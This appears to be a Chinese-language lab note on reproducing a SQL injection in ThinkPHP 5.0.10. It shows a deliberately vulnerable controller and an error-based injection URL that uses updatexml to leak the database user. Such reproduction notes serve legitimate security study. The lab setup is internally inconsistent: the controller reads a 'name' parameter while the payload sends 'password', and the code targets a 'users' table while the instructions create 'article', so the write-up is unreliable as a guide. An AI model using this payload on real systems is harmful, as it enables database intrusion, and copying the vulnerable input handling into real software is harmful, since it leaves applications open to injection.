




 #  ThinkPHP5 SQL注入漏洞

## 0x01 ThinkPHP部署
从ThinkPHP官网下载了5.0.10 的全版本

解压后切换到ThinkPHP的根目录
生成app
```shell
php think build --module home
```



执行完成之后会在application目录下生成一个home文件夹



修改application_index_controller/Index.php文件，在文件中添加基本的调用。添加以下代码：

```php
<?php
namespace app\index\controller;
use think\Db;

class Index
{
    public function index()
    {
        $name = input("get.name/a");
        Db::table("users")->where(["id"=>1])->insert(["username"=>$name]);
        return "ThinkPHP SQL Test.";
    }
}
```


编辑application目录下的database.php,填好数据库参数



然后在数据库中新建一个thinkphp数据库，数据库中创建一个article表，表里包含一个varchar类型的content字段

## 0x02 漏洞利用

```
http://127.0.0.1/public/index.php?password[0]=inc&password[1]=updatexml(2,concat(0x7e,user()),0)&password[2]=1
```




鸡肋到不行的漏洞


[ThinkPHP框架5.0.x SQL注入分析 - ZeroKeeper's Blog](http://www.zerokeeper.com/vul-analysis/thinkphp-framework-50x-sql-injection-analysis.html)
[代码审计 | ThinkPHP5.0.x框架SQL注⼊ - Mochazz's blog](https://mochazz.github.io/2018/04/14/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%20%7C%20ThinkPHP%205.0.x%E6%A1%86%E6%9E%B6SQL%E6%B3%A8%E2%BC%8A/)